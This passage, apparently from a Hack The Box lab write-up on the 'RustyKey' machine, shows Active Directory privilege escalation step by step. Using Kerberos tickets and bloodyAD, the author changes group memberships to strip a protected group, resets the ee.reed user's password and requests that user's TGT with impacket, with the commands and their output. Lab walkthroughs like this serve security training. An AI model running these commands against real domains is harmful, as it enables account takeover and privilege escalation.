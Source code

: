![BloodHound](/assets/img/rustykey-htb-season8/bloodhound_5.png)

This `support-team` is also a member of `protected objects@rustykey.htb` group as we discuss earilier. <br>
So this pdf hint for us that we need to able to grab the `ee.reed` user so that we can escalate more.

To do that, we need to recall back the `IT-COMPUTER3` ticket.

```bash
└─$ export KRB5CCNAME=IT-COMPUTER3\$.ccache
```

Redo this adding.

```bash
└─$ bloodyAD --host dc.rustykey.htb -d rustykey.htb -k -u 'IT-COMPUTER3$' -p 'Rusty88!' add groupMember 'HELPDESK' 'IT-COMPUTER3$'
[+] IT-COMPUTER3$ added to HELPDESK
```

Remove the `protected objects@rustykey.htb` out of `support-team@rustykey.htb` group.

```bash
└─$ bloodyAD --host dc.rustykey.htb -d rustykey.htb -k -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember "CN=PROTECTED OBJECTS,CN=USERS,DC=RUSTYKEY,DC=HTB" "SUPPORT"
[-] SUPPORT removed from CN=PROTECTED OBJECTS,CN=USERS,DC=RUSTYKEY,DC=HTB
```

> You can grab these `"CN=PROTECTED OBJECTS,CN=USERS,DC=RUSTYKEY,DC=HTB"` from the bloodhound.

Then reset the password of `ee.reed` user.

```bash
└─$ bloodyAD --host dc.rustykey.htb -d rustykey.htb -k -u 'IT-COMPUTER3$' -p 'Rusty88!' set password ee.reed 'P@ssword123'                                             
[+] Password changed successfully!
```

Let's grab the `ee.reed` ticket and activate it to connect via evil-winrm.

```bash
└─$ getTGT.py -dc-ip 10.129.4.62 'rustykey.htb/ee.reed:P@ssword123' 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in ee.reed.ccache
```
